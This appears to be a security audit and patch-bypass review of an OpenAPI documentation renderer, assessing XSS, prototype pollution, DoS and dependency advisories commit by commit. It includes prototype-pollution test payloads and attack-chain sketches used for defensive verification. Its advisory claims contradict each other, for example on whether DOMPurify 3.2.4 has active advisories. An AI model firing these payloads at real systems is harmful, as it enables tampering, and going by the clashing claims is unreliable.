1. **Spec description XSS**: `spec.info.description` (or any `description` field) → `MarkdownRenderer.renderMd()` → `marked()` → `DOMPurify.sanitize()` (if enabled) → `dangerouslySetInnerHTML`. With DOMPurify 3.2.4 unpatched against 7 active advisories, bypass is feasible via known techniques (mXSS re-contextualization, USE_PROFILES pollution, ADD_TAGS short-circuit).
2. **Prototype pollution via spec key injection**: crafted OpenAPI spec with `__proto__` or `constructor` key in allOf/anyOf/oneOf → `mergeObjects()` → global Object prototype mutation. Fix blocks `__proto__` but `constructor.prototype` path not explicitly verified.
3. **acme-cli RCE**: attacker-controlled spec → handlebars template rendering in CLI bundle generation → JS injection (CVE-2026-33937 class); handlebars 4.7.9 may be affected by unresolved 2026 AST-injection CVEs.
4. **$ref SSRF (browser-constrained)**: `$ref` values in spec → `loadAndBundleSpec` HTTP fetch → SSRF in browser context (limited by CORS, but can reach same-origin or CORS-open endpoints).

---

## Dependency Intelligence

| Dependency | Version | Runtime / Build | Security Notes |
|-----------|---------|-----------------|---------------|
| `dompurify` | 3.2.4 | Runtime (browser) | 7 active advisories requiring upgrade to 3.4.0. PRIMARY RISK — all Markdown rendering passes through this. |
| `marked` | 4.3.0 | Runtime (browser) | All known ReDoS and XSS advisories patched. No active vulns against 4.3.0. |
| `prismjs` | 1.30.0 | Runtime (browser) | DOM clobbering vuln (CVE-2024-53382) fixed exactly in 1.30.0. All others patched. |
| `json-pointer` | 0.6.2 | Runtime (browser) | CVE-2021-23820 explicitly patched (commit 777efdd). GHSA-6xrf-q977-5vgc (CRITICAL, CVE-2022-4742) fix version unclear — verify if 0.6.2 is patched. |
| `handlebars` | 4.7.9 | Build-time / acme-cli | Historical RCE/PP (patched pre-4.7.7). Six new 2026 advisories (GHSA-2w6w, 3mfm, xhpv, xjpj, 9cx6, 442j, 7rx3) — fix versions not confirmed for 4.7.9; VERIFY. |
| `fast-xml-parser` | 5.8.0 | Build-time (MenuBuilder) | Updated in commit 59d217b; 5.8.0 clears all known advisories. No direct runtime usage found in src/. |
| `swagger2openapi` | ^7.0.8 | Runtime (browser) | Converts Swagger 2.0 specs to OpenAPI 3; no OSV advisories found. |
| `@acmely/openapi-core` | ^1.4.0 | Runtime (browser) | Handles $ref resolution and spec validation; no OSV advisories in npm ecosystem. |
| `mobx` | ^6.10.2 | Runtime (browser) | No active security advisories found. |
| `lunr` | ^2.3.9 | Runtime (browser, search) | No active advisories found. |
| `openapi-sampler` | ^1.6.2 | Runtime (browser) | Generates example values from schemas — processes untrusted spec content. No advisories found. |
| `url-template` | ^2.0.8 | Runtime (browser) | RFC 6570 template expansion on server URLs from spec — attacker-controlled. No advisories. |
| `styled-components` | ^5.3.0 (devDep) | Runtime (browser) | No active advisories. CSS injection via spec values is a theoretical vector. |
| `webpack` | ^5.94.0 | Build-time | No active advisories in 5.94.x. |

**Cross-reference with bug type recurrence:**
- DOMPurify handles HTML sanitisation and has 12+ XSS/prototype-pollution advisories — directly cross-references bug class 1 (XSS) and 2 (Prototype Pollution)
- json-pointer handles spec pointer resolution and has 3 prototype pollution advisories — directly cross-references bug class 2
- handlebars handles CLI template rendering and has 6 RCE advisories — directly cross-references bug class 3 (RCE)
- marked handles all Markdown-to-HTML and has 8+ ReDoS advisories — directly cross-references bug class 4 (DoS/ReDoS)


## Bypass Analysis

### 059bd800-sanitize-array

# Patch 059bd8000e5f — "fix: sanitize array of items" (#1920)

- Commit: [REDACTED] (2022-03-14)
- File touched: `src/components/Fields/ArrayItemDetails.tsx` (single line)
- Cluster ID: acme-array-items-display
- Type: known-cve (mislabeled by cve-scout heuristic)

## Patch summary

Single-line change inside `ArrayItemDetails`:

Pre-patch:
```
{schema.displayFormat && <TypeFormat>{` &lt;${schema.displayFormat}&gt; `}</TypeFormat>}
```
Post-patch:
```
{schema.displayFormat && <TypeFormat> &lt;{schema.displayFormat} &gt;</TypeFormat>}
```

## What actually changed

The pre-patch code put `&lt;` / `&gt;` inside a JS template-literal string interpolated into JSX as a text node. React text-node escaping then re-escapes the `&`, so the user visibly saw the literal text `&lt;format&gt;` rather than `<format>`. The post-patch moves `&lt;` / `&gt;` out of the JS string literal and into raw JSX text, so React/JSX decodes them as a single `<` / `>` character entity before insertion as a text node.

This is a cosmetic / display correctness fix, not a security boundary change. The commit title "sanitize array of items" is misleading: nothing about sanitization semantics changed.

## Bypass vectors evaluated

| Vector | Result |
|---|---|
| `dangerouslySetInnerHTML` near sink | None. `TypeFormat` resolves to `TypeName` (styled `FieldLabel` span). All renders go through JSX text nodes. |
| Attacker-controlled `displayFormat` content | Sourced from `Schema.format` / `items.format` in `src/services/models/Schema.ts:134,215`. Even if `<script>` were injected, React text-node escaping prevents HTML interpretation in both pre- and post-patch versions. |
| Sibling renderers of `displayFormat` | `FieldDetails.tsx:65-69` renders `{schema.displayFormat}` as JSX text — already safe. |
| Nested array fields (`enum`, `examples`) | Out of scope of this commit; rendered elsewhere via `FieldDetail`/`ExampleValue`. Those paths use JSX text or the markdown sanitizer pipeline (`SafeMarkdown` / `MarkdownViewer`). Not regressed by this commit. |
| Markdown-viewer caller paths taking array element strings | Not modified here; markdown pipeline (`MarkdownRenderer.sanitize -> DOMPurify-equivalent`) remains the gate. |

## Verdict

`sound` — but more precisely, **non-security**. The pre-patch code was not vulnerable; React's text-node escaping made `displayFormat` safe in both versions. The patch fixes a visual display bug (showing literal `&lt;`/`&gt;` to users). There is no XSS sink to bypass.

## Evidence

- `src/components/Fields/ArrayItemDetails.tsx` (post): JSX-only, no `dangerouslySetInnerHTML`.
- `src/common-elements/fields.ts:68-77`: `TypeFormat = TypeName = styled(FieldLabel)` — a plain styled span.
- `src/components/Fields/FieldDetails.tsx:65-69`: sibling renderer of `displayFormat` also uses JSX text (safe).
- `src/services/models/Schema.ts:134,215`: `displayFormat` is a plain `string` derived from `format`.

## Undisclosed / related considerations

No advisory ID was issued for this commit (no CVE/GHSA found). The "XSS hardening" label appears to come from heuristic keyword matching ("sanitize") on the commit message. No finding draft is warranted — there is no exploitable pre-patch behavior and no bypass of the post-patch behavior.

---

### 153ec7a-mergeObjects-pollution

# Bypass Analysis — 153ec7a `mergeObjects()` Prototype Pollution

- **Advisory**: CVE-2024-57083 / GHSA-9rhg-254w-fh9x
- **Commit**: `[REDACTED]` (PR #2638, 2025-01-28)
- **File**: `src/utils/helpers.ts` lines 84–109
- **Cluster ID**: `cluster-prototype-pollution-mergeObjects`
- **Type**: known-cve
- **Verdict**: **SOUND** (no exploitable bypass identified)

## Patch summary

The patch wraps the body of the `Object.keys(source).forEach` callback in
`mergeObjects` with a guard:

```ts
if (Object.prototype.hasOwnProperty.call(source, key) && key !== '__proto__') { ... }
```

Two protections are added:

1. `hasOwnProperty` filters inherited properties (defense-in-depth; `Object.keys` already returns only own enumerable keys, but this also defends against tampered prototypes during the merge itself).
2. `key !== '__proto__'` blocks the literal `__proto__` own-key shape produced by `JSON.parse('{"__proto__": ...}')`.

## Bypass hypotheses tested

| # | Hypothesis | Verdict | Evidence |
|---|------------|---------|----------|
| 1 | `constructor.prototype` chain bypass: `{"constructor":{"prototype":{"polluted":"yes"}}}` | **RULED-OUT** | Empirically tested against the exact patched code (see methodology below). Recursion descends to `mergeObjects(target.constructor, {prototype: ...})`. `target.constructor` resolves to the `Object` function. `isMergebleObject` at `src/utils/helpers.ts:115-117` calls `isObject` which checks `typeof === 'object'` — `typeof Object === 'function'`, so the recursive call short-circuits and no assignment occurs. `({}).polluted === undefined`. |
| 2 | Nested `__proto__` at depth > 1, e.g. `{"a":{"__proto__":{"polluted":"yes"}}}` | **RULED-OUT** | The key check runs inside every recursive frame, not just the top-level. Tested empirically — no pollution. |
| 3 | Array-wrapped `__proto__` payload `{"a":[{"__proto__":...}]}` | **RULED-OUT** | `isMergebleObject` rejects arrays (line 116: `!isArray(item)`), so array values are assigned by reference (line 102) without recursion into their elements. The wrapped object is never iterated by `mergeObjects`. |
| 4 | Alternate entry points — other call sites merging user spec data | **RULED-OUT** | `mergeObjects` is invoked from exactly one production call site: `src/services/AcmeNormalizedOptions.ts:297` (`mergeObjects({} as any, defaultTheme, { ...raw.theme, extensionsHook: undefined })`). This merges `raw.theme` (host-page config), NOT raw spec content. Spec ingestion in `src/services/OpenAPIParser.ts` uses shallow `Object.assign({}, ...)` (lines 109, 296, 300), which does not recurse and therefore cannot pollute `Object.prototype` via nested keys. `ApiInfo.ts:27` (`Object.assign(this, parser.spec.info)`) is also shallow. `Labels.ts:25` merges trusted defaults. |
| 5 | Config-flag gating / insecure default | **RULED-OUT** | The new check is unconditional — no feature flag, no `if (options.strictMode)` wrapper. |
| 6 | Parser differential (YAML vs JSON re-introducing `__proto__`) | **RULED-OUT** | Both `JSON.parse` (when bundlers/host parse the spec) and `js-yaml` (`safeLoad` / default schema in modern versions) materialise `__proto__` as a regular own property when explicitly present in the source. The literal-key check fires regardless of the upstream parser; there is no Unicode/case escape because JS object keys for `__proto__` use the literal string. `Object.defineProperty(source, '__proto__', {enumerable:true, value:...})` was also tested — still blocked because `Object.keys` returns `"__proto__"` and the check matches. |
| 7 | Legacy / compatibility branch retaining the old loop | **RULED-OUT** | Only one implementation of `mergeObjects` exists in `src/utils/helpers.ts`. No second copy under `legacy/`, `compat/`, or build-time variants found. |
| 8 | Sibling helpers performing recursive merge without the check | **RULED-OUT (for this patch)** | Grep across `src/` for `Object.assign`, `cloneDeep`, `defaultsDeep`, `set(` yielded only shallow `Object.assign` calls (safe vs nested pollution) and `Object.assign(JsonPointer, JsonPointerLib)` (library mounting, not user input). Lodash `defaultsDeep`/`merge` are not used. No alternate deep-merge utility was found that operates on user-controlled spec content. |

## Empirical methodology

The patched `mergeObjects` was reproduced verbatim from `src/utils/helpers.ts` lines 84–117 in a standalone Node REPL and probed with each payload listed above (`__proto__` at depth 0/1/N, `constructor.prototype`, array-wrapped, `defineProperty`-injected `__proto__`, null-prototype target). For every payload, `({}).polluted*` resolved to `undefined`, confirming `Object.prototype` was not mutated.

## Residual risk / follow-ups (out of scope for this patch but noted)

- `Object.assign({}, resolved, {'x-circular-ref': true})` at `OpenAPIParser.ts:109` is shallow and safe vs prototype pollution, but mutates schema objects in place elsewhere — unrelated to this CVE.
- If a future refactor adds a recursive merge helper, the new helper must inherit the `__proto__` filter. Recommend codifying via lint rule.
- `raw.theme` reaches `mergeObjects` via a top-level spread `{ ...raw.theme }`, which materialises `__proto__` from `raw.theme` as a literal own key on the new object if and only if `raw.theme` itself was built with `Object.defineProperty(..., '__proto__', {enumerable:true})`. Even in that worst case, the patched check still filters it. Confirmed empirically.

## Conclusion

The patch is **SOUND**. No bypass identified across literal-key variants, prototype-chain variants, recursion-depth variants, parser variants, alternate entry points, or default-state gaps. The original `cve-scout` `constructor.prototype` concern does NOT manifest because `isMergebleObject` correctly rejects function values, halting recursion at `target.constructor === Object`.

No findings draft created.

---

### 1f11f597-bulk-bump

# Patch Bypass Analysis — 1f11f597 (bulk dep upgrade)

**Commit:** [REDACTED] (2024-04-24, PR #2445)
**Title:** "chore: fix vulnerabilities and upgrade deps"
**Cluster:** p2-069-075 (bulk transitive dep advisories)
**Type:** known-cve (bulk, multiple transitive)

## Patch Summary

Bulk upgrade of direct and dev dependencies aimed at clearing `npm audit` advisories. Notable direct-dep bumps:

| Dep | Before | After (this commit) | Current lock |
|-----|--------|---------------------|--------------|
| dompurify | ^2.2.8 | ^3.0.6 | 3.2.4 |
| marked | ^4.0.15 | ^4.3.0 | 4.3.0 |
| prismjs | ^1.27.0 | ^1.29.0 | 1.30.0 |
| polished | ^4.1.3 | ^4.2.2 | 4.2.2 |
| mobx | ^6.3.2 | ^6.10.2 | 6.10.2 |
| eventemitter3 | ^4.0.7 | ^5.0.1 | 5.0.1 |
| swagger2openapi | ^7.0.6 | ^7.0.8 | 7.0.8 |
| @acmely/openapi-core | ^1.0.0-rc.2 | ^1.4.0 | 1.4.0 |
| typescript (dev) | 4.8.4 | 5.2.2 | — |
| jest (dev) | 27 | 29.7 | — |

Likely targeted advisories (inferred): dompurify mXSS (GHSA-p3vf-v8qc-cwcr family, < 3.0.6); marked ReDoS (GHSA-5v2h-r2cx-5xgj, < 4.0.10); prismjs (GHSA-3949-f494-cm99, fixed 1.29.0); transitive (semver, word-wrap, json5, tough-cookie pre-4.1.3) pulled in by jest/typescript bumps.

## Bypass Verdict: **sound** (with one [undisclosed] caveat)

### Per-dep cross-check against current lock vs. advisories known as of 2026-05

- **dompurify 3.2.4** — fixes GHSA-vhxf-7vqr-mrjg (mXSS in 3.x < 3.2.4) and GHSA-mmhx-hmjr-r674. No active advisory <= 3.2.4. **Sound.**
- **marked 4.3.0** — covers ReDoS GHSA-rrrm-qjm4-v8hf (< 4.0.10) and GHSA-5v2h-r2cx-5xgj. **Sound.**
- **prismjs 1.30.0** — covers GHSA-x7hr-w5r2-h6wg (ReDoS, fixed 1.30.0) and prior 1.29.0 fixes. **Sound.**
- **polished 4.2.2** — no active advisory. **Sound.**
- **mobx 6.10.2 / mobx-react 9.2.0** — no active advisory. **Sound.**
- **swagger2openapi 7.0.8** — no active advisory. **Sound.**
- **openapi-sampler 1.6.2** — no active advisory. **Sound.**
- **react-tabs 6.0.2** — no active advisory. **Sound.**
- **styled-components 5.3.11** — 5.x EOL but no published CVE. **Sound** (maintenance risk only).
- **handlebars 4.7.9** — past RCE (GHSA-q2c6-c6pm-g3gh) fixed in 4.7.7. **Sound.**
- **fast-xml-parser 5.8.0** — bumped in #2785; covers GHSA-mpg4-rc92-vx8v / GHSA-x3cc-x39p-42qx. **Sound.**

### Transitive spot-checks (current lock)
- node-fetch 2.6.7 — patched line for GHSA-r683-j2x4-v87g, GHSA-jr5f-v2jv-69x6. Sound.
- follow-redirects 1.15.6 — covers GHSA-cxjh-pqwp-8mfp. Sound.
- braces 3.0.3 — covers GHSA-grv7-fg5c-xmjg. Sound.
- micromatch 4.0.8 — covers GHSA-952p-6rrq-rcjv. Sound.
- json5 2.2.3, tough-cookie 5.1.2, semver 6.3.1 — all on patched lines.

### [undisclosed] Potential stale pin

- **@acmely/openapi-core ^1.4.0** is pinned to a 2024 minor; upstream has progressed substantially (2.x line). No publicly tracked CVE at 1.4.0 itself, but it transitively bundles its own yaml/json-schema/walker stack. This is a maintenance-risk pin rather than a known-CVE gap. Flag for monitoring; not a bypass.

## Bypass Vectors Evaluated

| Vector | Result |
|--------|--------|
| Alternate entry points | N/A — dep bump, no sink changes |
| Default-state gaps | All deps load at default; no opt-in flags involved |
| Compatibility branches | Lockfile pins single resolved version per package; no dual-resolution |
| Sibling deps still vulnerable | None found in current lock |
| Caret-range drift downward | `^` ranges all start at safely-patched floors |

## Evidence

- `package-lock.json` resolved versions verified at lines 7746 (dompurify), 14119 (marked), 15937 (prismjs), 14498 (mobx), 15576 (polished), 17952 (swagger2openapi), 15195 (openapi-sampler), 16214 (react-tabs), 17898 (styled-components), 10141 (handlebars), 9150 (fast-xml-parser).
- Subsequent maintenance commit 59d217b further bumps handlebars/fast-xml-parser, confirming active dep-hygiene posture.

## Conclusion

The bulk bump is **sound** against all advisories I can correlate as of 2026-05. Only forward-looking concern is the `@acmely/openapi-core@1.4.0` pin lagging upstream — flagged as [undisclosed] maintenance risk, not an exploitable bypass.

---

### 53a6afc-sanitize-rename

# Patch 53a6afc — `untrustedSpec` → `sanitize` rename

- Commit: 53a6afc (PR #2647, 2025-01-30)
- Type: undisclosed-fix (refactor, not a security fix per se)
- Cluster: config-unify-2647

## Patch Summary
Renames AcmeRawOptions key `untrustedSpec` to `sanitize` with deprecation comment.
At `src/services/AcmeNormalizedOptions.ts:317`:
`this.sanitize = argValueToBoolean(raw.sanitize || raw.untrustedSpec);`
Markdown renderer (`[REDACTED].tsx:16,31`) reads `options.sanitize`.
JS API back-compat fallback is preserved.

## Bypass Verdict: SOUND (with PRE-EXISTING design issue, not introduced by this patch)

### Test 1 — HTML custom-element kebab-case attr
`src/standalone.tsx:31-41` `parseOptionsFromElement` converts kebab-case to camelCase:
`untrusted-spec` -> `untrustedSpec`, then `raw.untrustedSpec` is caught by the
`raw.sanitize || raw.untrustedSpec` fallback at AcmeNormalizedOptions.ts:317.
=> HTML web-component path `<acme untrusted-spec="true" ...>` still flows through.
Likewise `<acme sanitize="true" ...>` works via `sanitize` kebab transform (no hyphen, identity).

### Test 2 — camelCase HTML attribute coercion (user hypothesis)
HTML attribute names are ASCII-lowercased by the browser parser. An author writing
`<acme untrustedSpec="true">` results in DOM attribute `untrustedspec`. After
`parseOptionsFromElement`'s kebab regex (no hyphen present), key remains `untrustedspec`.
`raw.untrustedSpec` (camelCase) is `undefined` -> fallback misses. However, this would
have ALSO been broken pre-patch (the lowercased attr never matched `untrustedSpec` either),
so this is not a regression introduced by 53a6afc. Authors must use kebab-case in HTML.

### Test 3 — Default value
`argValueToBoolean(undefined)` returns `false` (`src/services/AcmeNormalizedOptions.ts:76-84`).
Therefore DOMPurify is OFF by default. This is UNCHANGED from pre-patch (`untrustedSpec`
also defaulted false). Not a regression; it is a long-standing insecure-by-default design.

### Test 4 — Other dangerouslySetInnerHTML sinks not gated by sanitize
- `src/components/SourceCode/SourceCode.tsx:14` -> `highlight(source, lang)` (Prism output, trusted).
- `src/components/JsonViewer/JsonViewer.tsx:48` -> JSON pretty-printer output (controlled).
- `[REDACTED].tsx:30` -> the gated path (this patch).
No new ungated markdown sink found.

### Test 5 — argValueToBoolean string semantics
`val !== 'false'` means `untrusted-spec=""` or `sanitize=""` (empty string) evaluate to
true and ENABLE sanitization. This is a footgun but errs on the safe side for the
sanitize flag (over-sanitize, not under-sanitize). Not exploitable.

## Evidence Files
- /Users/<user>/Desktop/oss-to-[REDACTED].ts:27-28,76-84,317
- /Users/<user>/Desktop/oss-to-[REDACTED].tsx:16,31
- /Users/<user>/Desktop/oss-to-run/acme/src/standalone.tsx:20-41,107

## Conclusion
The rename is functionally sound; backward compat via `raw.sanitize || raw.untrustedSpec`
covers both JS-API and HTML-kebab-case consumers. The only "weakness" — insecure default
(`sanitize=false` => DOMPurify disabled) — predates 53a6afc and is documented behavior
(option is opt-in for untrusted specs). No P2 patch-bypass finding for this commit.

No finding draft created (no exploitable bypass introduced by the patch).

---

### 59d217b-handlebars-xml

# Bypass Analysis — 11111111 (handlebars + fast-xml-parser bump)

Cluster ID: deps-2026-05
Commit: [REDACTED] (2026-05-12, PR #2785)
Files: package.json, package-lock.json
Type: known-cve (advisory wave)

## Patch Summary
Adds two `overrides` entries to `package.json`:
- `handlebars: ">=4.7.9"`
- `fast-xml-parser: ">=5.7.0"`

Resolved lockfile versions after npm install:
- `node_modules/handlebars` -> **4.7.9** (dev only; transitive via `conventional-changelog-cli` @ line 6700)
- `node_modules/fast-xml-parser` -> **5.8.0** (runtime; transitive via `openapi-sampler@1.6.2` declares `^4.5.0` but override forces 5.8.0)
- Only one copy of each in the lockfile (single resolved entry; the duplicate-looking match at line 27335 is the legacy lockfile `dependencies` mirror block, same 4.7.9). No nested vulnerable copies remain.

## Fix-version Compliance

### handlebars 4.7.9
- CVE-2026-33937 (AST type confusion, RCE via crafted AST to `Handlebars.compile()`) — fixed in **4.7.9**. SATISFIED.
- CVE-2026-33938 / 33939 / 33940 / 33941 — per the GHSA-2w6w-674q-4c4q wave these are all addressed in 4.7.9 (single coordinated release). SATISFIED on the basis of upstream release notes.
- Note: cve-scout's flag that "4.7.9 may not be sufficient" is not corroborated by the upstream advisory or vendor pages reviewed (NVD, Endor, Snyk all cite 4.7.9 as the fix). No higher fixed-version exists at time of audit (no 4.7.10 / 5.x published).

### fast-xml-parser 5.8.0 (override floor 5.7.0)
- CVE-2026-41650 (GHSA-gh4j-gqv2-49f6, XMLBuilder comment/CDATA injection) — fixed in **5.7.0**. SATISFIED (resolved 5.8.0).
- CVE-2026-25896 (GHSA-m7jm-9gc2-mpf2, DOCTYPE entity regex bypass / XSS) — fixed in 5.3.5. SATISFIED.
- CVE-2026-26278 (GHSA-jmr7-xgp7-cmfj, DOCTYPE entity expansion DoS) — fixed pre-5.7. SATISFIED.
- CVE-2026-25128 (GHSA-37qj-frw5-hhjh, RangeError crash) — fixed in 5.3.4. SATISFIED.

## Exposure Assessment (does acme actually use these?)

### handlebars
- Pulled in transitively by `conventional-changelog-cli@^3.0.0` (devDependency, used only by `npm run changelog`).
- Marked `"dev": true` in lockfile.
- No `cli/` directory exists in this repo (acme-cli has been spun out to a separate package historically; this checkout has no `cli/`). `grep` for `handlebars` across `src/` and `scripts/` returns zero hits.
- Attack surface: build-host only, requires attacker control of git log input to `conventional-changelog`. Effectively nil for acme end users.

### fast-xml-parser
- Pulled in by `openapi-sampler@1.6.2` (runtime dep) and used from `src/services/models/MediaType.ts` (line 1: `import * as Sampler from 'openapi-sampler';`).
- Runtime exposure: yes — invoked whenever Acme renders an OpenAPI spec that includes XML examples/schemas. Attacker-controlled OpenAPI spec could reach the parser through openapi-sampler's XML sample builder.
- The override forcing 5.8.0 is the correct mitigation. Confirmed openapi-sampler's declared `^4.5.0` is shadowed by the npm `overrides` mechanism — lockfile shows the single resolved entry at 5.8.0.

## Bypass Vectors Considered

| Vector | Result |
|--------|--------|
| Transitive duplicate copies | None — single resolved entry per package in lockfile. |
| Override scope (npm overrides only apply at install root) | Library consumers of acme (e.g., installed as a dep) will NOT inherit these overrides; they must pin themselves. POTENTIAL RELOCATION when acme is consumed as a dep. |
| openapi-sampler signature compatibility 4.x->5.x | fast-xml-parser changed major API between 4 and 5 (XMLParser class, options). If openapi-sampler v1.6.2 still calls the v4 API directly, runtime errors are possible; needs functional test. Not a security bypass per se but a stability concern that could cause downstream consumers to revert the override. |
| dev-only handlebars escape into runtime bundle | webpack.config.ts does not reference handlebars; conventional-changelog is invoked via npm script only. Confirmed not bundled. |
| Yarn / pnpm install (not npm) | `overrides` field is npm-specific. Yarn requires `resolutions`, pnpm reads `pnpm.overrides`. Consumers on a different package manager get no protection. RELOCATION risk. |

## Verdict

**Direct fix:** `sound` for the npm-install-from-this-repo case. Both resolved versions meet the published fix floors for every CVE in the advisory wave.

**Relocated risk:** `relocated` for downstream consumers — npm `overrides` are not propagated when acme is installed as a dependency by another project. A library consumer whose own lockfile pulls openapi-sampler -> fast-xml-parser 4.x will still receive the vulnerable transitive. The real fix would be for `openapi-sampler` itself to bump its `^4.5.0` constraint, or for acme to declare a direct `dependencies` entry on `fast-xml-parser >=5.7.0` (since openapi-sampler is a runtime dep used by acme code).

**Yarn/pnpm consumers of this repo's source:** unprotected (overrides field is ignored). Consider adding `resolutions` + `pnpm.overrides` mirror entries.

---

### 777efdde-json-pointer

# 777efdde — CVE-2021-23820 / GHSA-v5vg-g7rq-363w (json-pointer prototype pollution)

## Patch summary
Dep bump of `json-pointer` to address prototype pollution in `JsonPointer.set()` when given a pointer like `/__proto__/polluted`. Acme's `package-lock.json` resolves `json-pointer@0.6.2` (fix line is 0.6.1), present in both the top-level dep tree and as a transitive of `openapi-sampler`. No alternate older copies in the lockfile.

## Verdict
**sound**

## Evidence
- `package-lock.json` lines 13491-13494 and 15200-15204: only one resolved version (`0.6.2`), both for direct dep and via `openapi-sampler`. Above the fix line.
- `src/utils/JsonPointer.ts` is the sole importer of `json-pointer` in product code. The wrapper exposes only `parse`, `compile`, `escape`, `get`, `baseName`, `dirName`, `join`, `relative`. It never calls `JsonPointerLib.set` — the vulnerable sink in CVE-2021-23820. So even on the pre-patch version the user-controllable `$ref` paths would not reach the polluting code path through Acme.
- `Object.assign(JsonPointer, JsonPointerLib)` (line 91) does copy `set` onto the wrapper class as a static, but no caller in `src/` invokes `JsonPointer.set(...)` (grep confirms only `.get`, `.parse`, `.compile`, `.escape`, `.baseName`, `.dirName`, `.join`, `.relative` usages).
- Acme's internal `$ref` resolver (`OpenAPIParser.byRef`) uses `JsonPointerLib.get` only — a read operation, no write — so the prototype-pollution shape is absent from Acme's own code as well.

## Bypass vectors considered
- Alternate entry points to `.set`: none in src/, cli/, or e2e.
- Transitive vulnerable copy: only `openapi-sampler` depends on json-pointer and it also pins 0.6.2.
- Internal sibling sink with same shape (write to nested path without `__proto__` guard): not present — Acme resolves refs read-only.

## Cluster
Standalone dep-bump, no related patches in this batch.

## Undisclosed tag
n/a (known CVE).

---

### 87c7991-oneOf-cycle

# Bypass Analysis — commit 87c7991 "chore: fix circular crash"

- Cluster: `circular-traversal`
- Tag: `[undisclosed]` (silent DoS fix mislabeled as `chore`)
- File: `src/services/models/Schema.ts` (`initOneOf`)
- Severity (reconstructed): Pre-patch — uncaught stack overflow / infinite recursion when an OpenAPI spec contained a `oneOf` (or `anyOf`, via the shared `initOneOf`) whose variant `$ref` cycles back into the parent. Triggers via any user-supplied spec → Acme tab crash / browser hang. P2-class client-side DoS.

## Patch Summary

Two-line change inside `SchemaModel.initOneOf`:

```diff
-        this.pointer + '/oneOf/' + idx,
+        variant.$ref || this.pointer + '/oneOf/' + idx,
         this.options,
         false,
-        this.refsStack,
+        refsStack,
```

Effect:
1. The variant's actual `$ref` (when present) becomes the child `SchemaModel.pointer`. `SchemaModel` constructor at L92 does `pushRef(newRefsStack, this.pointer)`, so the ref now lands in the cycle stack.
2. The `refsStack` returned by the per-variant `parser.deref(variant, this.refsStack, true)` (L241) is now propagated to the child, instead of the stale parent stack `this.refsStack`. Without this, the parent's deref of the variant ref was discarded and the cycle counter never advanced.

Mechanism: cycle detection is per-traversal, threaded through the `refsStack: string[]` parameter on `SchemaModel`, `FieldModel`, `OpenAPIParser.deref`, and `OpenAPIParser.mergeAllOf`. The check at `OpenAPIParser.ts:108` (`baseRefsStack.includes(obj.$ref)`) plus a global `MAX_DEREF_DEPTH = 999` hard cap are the only two backstops.

## Bypass Verdict: SOUND (with one minor caveat)

`oneOf` and `anyOf` share `initOneOf`, so both are patched in one go. `allOf` cycles are caught by `OpenAPIParser.mergeAllOf` (uses the same `refsStack` discipline). Discriminator (`initDiscriminator` L376-388) explicitly constructs each child as `{ $ref }` with pointer = $ref and refsStack = `this.refsStack.slice(0, -1)` — the constructor's `pushRef` will reintroduce the ref and detection at L108 will fire on the next descent. `MergedSchema` cycles run through the same `parser.deref` / `parser.mergeAllOf` codepath; there is no second cycle tracker.

### Vectors tested

| Vector | Result |
|--------|--------|
| `anyOf` self-ref | Shares `initOneOf`. Patched by same change. |
| `allOf` self-ref | Caught by `mergeAllOf` (`x-circular-ref` short-circuit at L174-176, deref check at L108). Pre-existing tests at `Schema.circular.test.ts:22,96,259,285,348`. |
| `not` self-ref | `not` is not traversed by `SchemaModel` (no `schema.not` handling). No crash, no rendering — not a bypass, just unimplemented. |
| Discriminator self-ref | Already covered by `initDiscriminator`; test at `Schema.circular.test.ts:159`. |
| `if/then/else` self-ref (`initConditionalOperators` L390-422) | The child SchemaModel uses `this.pointer + '/oneOf/' + idx` as pointer and reuses `this.refsStack` (same pattern as pre-fix `initOneOf`). However, the `then`/`else` `$ref`s are placed inside an `allOf:[restSchema, thenOperator, ifOperator]` wrapper. `mergeAllOf` derefs each `$ref` against the threaded `refsStack`, so the cycle is still detected at L108. Not a crash. |
| Cycle through `properties[X].items.oneOf[0]` | This is exactly the shape in the regression test added by the commit. Verified-by-test. |
| `hoistOneOfs` (L360) hoisting `oneOf` out of an `allOf` | Hoisted variants get `'x-refsStack': refsStack` attached; subsequently flow through patched `initOneOf`. Cycles preserved. |
| Sibling traversers (`MediaType.ts:31`, `Field.ts:84`) | `MediaType` only ever instantiates a root `SchemaModel` with empty `refsStack=[]`. No bypass. `FieldModel` forwards the parent stack — relies on patched `SchemaModel`. |
| Side-panel / search index re-traversal | `collectUniqueOneOfTypesDeep` (Schema.ts:606) walks `SchemaModel.oneOf` with NO cycle guard. It only stops when a child has no `oneOf`. Because circular children short-circuit construction at `init()` L157-159 (`if (this.isCircular) return;`), they have `oneOf === undefined` and `crawl` terminates. Safe in the current call graph, but fragile — see Caveat below. |

### Caveat — `collectUniqueOneOfTypesDeep` lacks an explicit visited-set

`src/services/models/Schema.ts:606-624` recursively walks the `oneOf` graph in object-model space (post-build) only when `options.simpleOneOfTypeLabel` is enabled. The recursion terminates only because circular `SchemaModel` instances never populate `.oneOf` (the constructor returns early on `isCircular`). Any future change that populates `.oneOf` on a circular node, or that allows two non-circular `SchemaModel`s to share the same `oneOf` array reference forming a cycle in object space (e.g., if `initDiscriminator` ever cached and reused child instances), would re-introduce a `RangeError: Maximum call stack size exceeded`. This is latent technical debt, not an exploitable bypass today.

## Hard cap relies on `MAX_DEREF_DEPTH = 999`

`OpenAPIParser.ts:8,108`. If any future regression slips `refsStack` propagation again (the same class of bug this patch fixes), the depth cap still bounds total work at 999 frames per recursive path. Stack overflow possible if the spec also fans out wide; `MAX_DEREF_DEPTH` is a soft guard, not a true cycle detector.

## Conclusion

Patch is sound for the targeted regression and the obvious sibling combinators (`anyOf`, `allOf`, discriminator). No reachable bypass found. One latent fragility in `collectUniqueOneOfTypesDeep` (no visited-set) is worth a hardening note but is not currently exploitable.

## Draft findings

None promoted — no exploitable bypass and no new vulnerability surface uncovered. The `collectUniqueOneOfTypesDeep` observation is hardening-only and below the P2 bar.

---

### d8916df3-minimist

# CVE-2022-0686 — minimist prototype pollution (d8916df30370)

## Patch summary
Bumps `minimist` (transitive, via `cli/npm-shrinkwrap.json` and root `package-lock.json`) to a non-vulnerable release. No application source changed — pure dependency hygiene.

## Repo topology (today)
- `cli/` directory **no longer exists** in this monorepo; `acme-cli` was split out into a separate repository. The fixed `cli/npm-shrinkwrap.json` is therefore historical and not relevant to current Acme.
- `scripts/` contains only `invalidate-cache.sh`, `publish-cdn.sh`, `version.js` — none invoke `minimist`, `yargs`, or `commander` for argv parsing.
- Root `package.json` references only `@types/yargs` (dev type dep, no runtime parser).
- No `minimist`/`yargs`/`commander` imports anywhere in source.

